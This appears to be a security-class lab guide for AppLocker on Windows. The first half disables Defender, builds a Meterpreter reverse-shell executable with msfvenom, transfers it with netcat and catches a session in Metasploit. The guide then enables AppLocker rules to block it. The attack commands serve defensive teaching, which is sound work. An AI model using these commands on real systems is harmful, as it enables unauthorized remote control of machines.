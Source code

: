 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.31.141.100.   Your IP Address and adapter name may be different.

Please note your IP address for the Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the clabs password is clabs.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`


/#`nc -l -p 2222 < TrustMe.exe`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

![](attachments/cmd-command-prompt.png)

Once the prompt is open, let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](attachments/TrustMe.png)

Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments/Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments/Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments/Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






